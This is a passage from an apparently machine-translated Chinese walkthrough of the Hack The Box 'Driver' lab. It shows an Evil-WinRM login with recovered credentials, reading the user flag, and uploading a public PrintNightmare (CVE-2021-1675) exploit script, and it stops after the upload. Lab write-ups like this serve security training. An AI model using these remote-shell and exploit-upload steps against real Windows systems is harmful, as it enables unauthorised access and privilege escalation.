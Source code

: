 # 邪恶-WinRM

我们现在有了用户名和密码，所以可以使用 Evil-WinRM 进行连接。在此之前，让我们抓住[这个](https://github.com/calebstewart/CVE-2021-1675)版本的 PrintNightmare 公开漏洞:

![](img/94e2b4ea8c9a8d41fc3ddc9222c67764.png)

下载 CVE-2021–1675 漏洞

现在我们可以连接到盒子:

```
┌──(root💀kali)-[~/htb/driver]
└─# evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
```

# 用户标志

不妨抓住用户标志:

```
*Evil-WinRM* PS C:\Users\tony\Documents> type ../Desktop/user.txt
<HIDDEN>
```

# 打印噩梦漏洞

现在上传我们的漏洞:

```
*Evil-WinRM* PS C:\Users\tony\Documents> upload /root/htb/driver/CVE-2021-1675.ps1
Info: Uploading /root/htb/driver/CVE-2021-1675.ps1 to C:\Users\tony\Documents\CVE-2021-1675.ps1
Data: 238080 bytes of 238080 bytes copied
Info: Upload successful!
```
